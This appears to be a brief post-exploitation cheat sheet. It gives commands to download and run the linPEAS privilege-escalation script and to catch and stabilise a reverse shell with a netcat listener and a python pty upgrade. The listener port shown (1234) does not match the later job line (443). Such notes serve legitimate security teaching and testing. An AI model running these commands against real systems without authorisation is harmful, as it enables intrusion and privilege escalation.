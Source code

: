 # Post-Exploitation Techniques

After gaining an initial foothold with an interactive shell, further post-exploitation techniques can be used to escalate privileges, maintain access, and gather intelligence.

## Enumerating the System

use linPEAS for Linux, an automated privilege escalation script:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## Spawn Interactive shell

```
kali@kali:~$ sudo nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.1.2.3] from (UNKNOWN) [10.1.2.4] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
kali@linux-practice:~$ export TERM=xterm
export TERM=xterm
kali@linux-practice:~$ ^Z
[1]+ Stopped sudo nc -lvnp 443
kali@kali:~$ stty raw -echo; fg

```

